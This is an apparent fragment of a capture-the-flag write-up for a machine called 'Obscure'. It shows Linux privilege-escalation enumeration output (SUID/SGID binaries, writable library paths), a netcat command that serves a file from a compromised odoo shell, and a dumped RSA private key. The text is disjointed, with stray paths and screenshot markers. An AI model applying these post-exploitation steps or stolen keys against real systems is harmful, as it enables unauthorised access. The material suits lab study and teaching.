 /usr/bin/passwd		--->	Apple_Mac_OSX(03-2006)/Solaris_8/9(12-2004)/SPARC_8/9/Sun_Solaris_2.3_to_2.5.1(02-1997)
/ret

[+] SGID
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#commands-with-sudo-and-suid-commands
/usr/bin/expiry
/usr/bin/chage
/usr/bin/wall
/usr/bin/ssh-agent
/sbin/unix_chkpwd

[+] Writable folders configured in /etc/ld.so.conf.d/
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#etc-ld-so-conf-d
/usr/local/lib
/lib/x86_64-linux-gnu
/usr/lib/x86_64-linux-gnu

[+] Capabilities
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#capabilities

[+] Users with capabilities
/etc/security/capability.conf Not Found



__




<img width="1752" height="328" alt="image" src="https://github.com/user-attachments/assets/3a593320-0359-436a-9424-23e09d2840e6" />



<img width="1750" height="524" alt="image" src="https://github.com/user-attachments/assets/19d5ca48-ddfa-4711-9735-ee3c185f5c2b" />


<img width="1753" height="377" alt="image" src="https://github.com/user-attachments/assets/aa7df21d-e188-4dfc-9616-30d228584cc6" />


odoo@b8a9bbf1f380:/$ nc -nlvp 8888 < ret
nc -nlvp 8888 < ret
Ncat: Version 6.47 ( http://nmap.org/ncat )
Ncat: Listening on :::8888
Ncat: Listening on 0.0.0.0:8888

<br>

<br>
<br>
<br>
<br>


```bash
:~/Obscure# cat .ssh/id_rsa
-----BEGIN RSA PRIVATE KEY-----
MIIEpQIBAAKCAQEAxuNhK456dD+WXwoMLkfzQPvBsbnN27Aq8NfCVp4625XyoXi+
...
zEZCM96+u7ztQ4SbQdQyoxvvlHT/ndXx6XGJZLumWNjo0yLWHrt4oEBdXXyKnsoc
Xd7vdmN3yLBxPy/oLniacvcYUPsXwhLOGkumAgPPevzJsn+MHvxm5JQ6U0/MrM3S
aR/dJVG0ySki5Gtv/7YLW8kCgYEAhKCtLe684OcOI/g830rDwgHW6oXiDyKsxtHR
/13rJbeBIitWlmz5D3z9mvqRIbhc8IA8SCfYiRKz1WHxNjRJukdc0FDeLsjtPFqd
oudjDNXGitbgEHFzeQg+7slgOtDLQs0Wn0daumcfctB7oiJX5fMyHvj43Fl7/64K
PAHY6rkCgYEAsVk6DjjzRQCAMoyC9H4bwAWMkvYerSkmvIo3efCMyUdKtMjg3cCv
EFmGDkEL3l6/2W3bmF6kbYDOeSyRjAaZp59QUiNliiHneD9VwCVXT/IF70O+kNkf
c7FgDFMEoa44S7BZIhxymHyGN7xgPQ6EJonUuMCfmP83KLRZrkI4FPI=
-----END RSA PRIVATE KEY-----
```
